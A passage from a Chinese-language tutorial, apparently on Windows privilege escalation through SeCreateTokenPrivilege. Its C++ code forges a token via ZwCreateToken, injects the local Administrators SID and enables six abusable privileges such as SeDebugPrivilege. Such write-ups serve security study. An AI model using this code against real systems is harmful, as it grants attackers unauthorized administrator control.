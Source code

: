 ```c++
    return NULL;
}
wprintf(L"[*] ZwCreateToken function loaded.\n");
```

由于要创建一个新的令牌，因此必须向 `ZwCreateToken()` 函数提供令牌的 TokenPrivileges、TokenGroups、TokenPrimaryGroup 和 TokenDefaultDacl 等信息。我们不需要自己构造这些信息，只需要从当前进程令牌中获取，最后将这些进行传入 `ZwCreateToken()` 函数。在此之前，需要在获取到的 TokenGroups 信息中设置 LocalAdminGroupSID 和 IntegrityMediumSID 两个 SID，以保证新生成的令牌拥有本地管理员权限并且完整性等级为 Medium。

```c++
pTokenPrivileges = (PTOKEN_PRIVILEGES)LocalAlloc(LMEM_FIXED, sizeof(TOKEN_PRIVILEGES) + (sizeof(LUID_AND_ATTRIBUTES) * 4));
pTokenPrivileges = (PTOKEN_PRIVILEGES)GetTokenInfo(hToken, TokenPrivileges);
SetTokenPrivileges(pTokenPrivileges);
pTokenGroups = (PTOKEN_GROUPS)GetTokenInfo(hToken, TokenGroups);
pTokenPrimaryGroup = (PTOKEN_PRIMARY_GROUP)GetTokenInfo(hToken, TokenPrimaryGroup);
pTokenDefaultDacl = (PTOKEN_DEFAULT_DACL)GetTokenInfo(hToken, TokenDefaultDacl);

for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
{
    if (pTokenGroups->Groups[i].Attributes & SE_GROUP_INTEGRITY)
    {
        memcpy(pTokenGroups->Groups[i].Sid, &IntegrityMediumSID, sizeof(IntegrityMediumSID));
        wprintf(L"[*] Set the token integrity level to medium.\n");
    }

    pSid = (PISID)pTokenGroups->Groups[i].Sid;
    if (pSid->SubAuthority[pSid->SubAuthorityCount - 1] == DOMAIN_ALIAS_RID_USERS)
    {
        memcpy(pSid, &LocalAdminGroupSID, sizeof(LocalAdminGroupSID));
        pTokenGroups->Groups[i].Attributes = SE_GROUP_ENABLED;
        wprintf(L"[*] Add extra SID S-1-5-32-544 to token.\n");
    }
    else
    {
        pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_USE_FOR_DENY_ONLY;
        pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_ENABLED;
    }
}
```

于此同时，我们当然可以为新生成的令牌开启一些新的危险特权。如下所示，`SetTokenPrivileges()` 函数在令牌的 TokenPrivileges 信息中启用了以下六个特权，他们都可以被滥用以实现特权提升。

- SeImpersonatePrivilege
- SeAssignPrimaryTokenPrivilege
- SeCreateTokenPrivilege
- SeRestorePrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

```c++
void SetTokenPrivileges(PTOKEN_PRIVILEGES pTokenPrivileges)
{
    LUID luid;

    pTokenPrivileges->PrivilegeCount = 6;

    // Enable SeImpersonatePrivilege
    LookupPrivilegeValue(NULL, SE_IMPERSONATE_NAME, &luid);
    pTokenPrivileges->Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    pTokenPrivileges->Privileges[0].Luid = luid;

    // Enable SeAssignPrimaryTokenPrivilege
    LookupPrivilegeValue(NULL, SE_ASSIGNPRIMARYTOKEN_NAME, &luid);
    pTokenPrivileges->Privileges[1].Attributes = SE_PRIVILEGE_ENABLED;
```